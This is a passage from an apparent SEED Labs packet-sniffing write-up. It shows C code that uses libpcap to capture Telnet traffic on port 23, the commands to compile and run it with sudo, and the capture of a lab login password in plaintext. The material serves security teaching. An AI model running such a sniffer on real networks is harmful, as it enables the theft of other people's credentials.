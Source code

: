         int main() {
            pcap_t *handle;
            char errbuf[PCAP_ERRBUF_SIZE];
            struct bpf_program fp;
            // This filter will capture traffic to and from the Telnet port (23)
            char filter_exp[] = "tcp and port 23";
            bpf_u_int32 net;

            handle = pcap_open_live("br-82f1d76314d9", BUFSIZ, 1, 1000, errbuf);
            
            // ... (the rest of your main function remains the same) ...
            
            if (handle == NULL) {
                fprintf(stderr, "Could not open device %s: %s\n", "br-82f1d76314d9", errbuf);
                return 1;
            }
            if (pcap_compile(handle, &fp, filter_exp, 0, net) == -1) {
                fprintf(stderr, "Could not parse filter %s: %s\n", filter_exp, pcap_geterr(handle));
                return 1;
            }
            if (pcap_setfilter(handle, &fp) == -1) {
                fprintf(stderr, "Could not install filter %s: %s\n", filter_exp, pcap_geterr(handle));
                return 1;
            }
            printf("Sniffer started. Waiting for Telnet traffic on port 23...\n");
            pcap_loop(handle, -1, got_packet, NULL);
            pcap_freecode(&fp);
            pcap_close(handle);

            return 0;
        }
        ```
    - compile this code with `gcc -o sniff_pword sniff_pword.c -lpcap`
    - then run with `sudo ./sniff_pword`
- On host A `10.9.0.5`, we use `telnet` to connect to host B on `10.9.0.6`
- using the credentials `username: seed` and `password: dees`
    - we can see the password being captured in plaintext by our sniffing program